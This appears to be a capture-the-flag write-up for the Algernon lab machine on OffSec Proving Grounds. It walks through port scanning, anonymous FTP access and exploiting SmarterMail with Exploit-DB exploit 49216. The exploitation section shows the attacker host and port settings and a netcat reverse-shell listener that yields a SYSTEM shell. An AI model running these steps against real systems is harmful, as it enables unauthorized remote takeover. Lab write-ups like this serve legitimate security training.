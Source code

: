 ```yaml
---
layout: post
title: Algernon - Proving Grounds
date: 31-01-2025
categories: [Writeups]
tag: [Proving Grounds, Windows, Easy]
---
```


# Algernon - Walkthrough

Algernon is an easy box on OFFSEC’s Proving Grounds and the community agrees that it is easy difficulty. 

## Recon
Start scanning all ports:
```
nmap -p- 192.168.234.65 -T 5 -v    
```
![Scan de todas as portas](/assets/images/Algernon/1.png)

Scanning only the open doors we found:

```
nmap -sC -sV -Pn 192.168.234.65 -p 9998,49664,49665,49666,49668,17001  -v
```

![Scan portas abertas](/assets/images/Algernon/2.png)

## Enumeration

I logged in anonymously to ftp with the login anonymous and no password.
Inside the Logs folder I found a file called 2020.05.12-administrative.log

![ftp](/assets/images/Algernon/3.png)

I downloaded the file containing the following information:

![ftp](/assets/images/Algernon/4.png)

I accessed port 9998, which directed me to an email service called SmarterMail:

![smartermail](/assets/images/Algernon/5.png)

## Exploitation
I searched the exploit db for an exploit and found the SmarterMail Build 6985 - Remote Code Execution exploit. I downloaded it with searchsploit:

```
searchsploit -m 49216   
```
Then I edited the exploit by putting in the target's ip and my ip and port that was waiting for the connection:

```
HOST='192.168.234.65'
PORT=17001
LHOST='192.168.45.162'
LPORT=4444
```
I saved the file and started my listener:
```
 nc -lnvp 4444
```
I ran the exploit and got the shell with the user nt authority\system, browsed the host and found the flag on the user administrator's desktop

![smartermail](/assets/images/Algernon/6.png)

